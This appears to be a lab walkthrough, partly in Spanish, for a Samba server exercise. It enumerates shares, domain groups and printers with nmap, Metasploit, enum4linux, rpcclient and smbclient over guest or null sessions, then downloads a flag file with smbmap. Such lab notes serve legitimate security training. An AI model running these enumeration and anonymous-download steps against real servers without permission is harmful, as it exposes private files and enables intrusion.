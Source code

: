 #SMB Samba 3


List all available shares on the samba server using Nmap script.
    . nmap 192.32.67.3 -p- -T4 --open
    . nmap 192.32.67.3 -p 445,135 -sCV
    Con esto vemos abiertos los puertos 445 y 135. En 445 corre Samba 4.3.11 - Ubuntu
    Hay habilitada cuenta "guest". Vamos a listar ahora los contenidos compartidos con nmap
    . nmap 192.32.67.3 -p445, --script smb-enum-shares
    Ahora con metasploit
    . use auxiliary/scanner/smb/smb_enumshares
    . Después configuramos las opciones, viéndolas en el comando **info**
    Ahora con enum4linux
    . enum4linux 192.32.67.3 -S
    Ahora con smbclient
    - smbclient -L 192.32.67.3 -U "" -N
Find domain groups that exist on the samba server by using enum4Linux.
    . enum4linux 192.32.67.3 -G
    Aparecen:
        group:[Testing] rid:[0x3f0]
        group:[Maintainer] rid:[0x3ee]
        group:[Reserved] rid:[0x3ef]


Find domain groups that exist on the samba server by using rpcclient.
    . rpcclient 192.32.67.3 -U "" -N
    Ahora estamos conectados al cliente rpc, tenemos que usar sus comandos
    . rpcclient $> enumdomgroups


Is samba server configured for printing?

     ============================================ 
|    Getting printer info for 192.32.67.3    |
 ============================================ 
No printers returned.


How many directories are present inside share “public”?
    smbmap -H  192.32.67.3 -R \public

    [+] Finding open SMB ports....
[+] Guest SMB session established on 192.32.67.3...
[+] IP: 192.32.67.3:445 Name: target-1                                          
        Disk                                                    Permissions
        ----                                                    -----------
        public                                                  READ, WRITE
        .\
        dr--r--r--                0 Sat Jul  8 08:03:06 2023    .
        dr--r--r--                0 Tue Nov 27 13:36:12 2018    ..
        dr--r--r--                0 Tue Nov 27 13:36:12 2018    dev
        dr--r--r--                0 Tue Nov 27 13:36:12 2018    secret
        .\\secret\
        dr--r--r--                0 Tue Nov 27 13:36:12 2018    .
        dr--r--r--                0 Sat Jul  8 08:03:06 2023    ..
        -r--r--r--               33 Tue Nov 27 13:36:12 2018    flag


Fetch the flag from samba server.

    . smbmap -H 192.32.67.3 --download /public/secret/flag

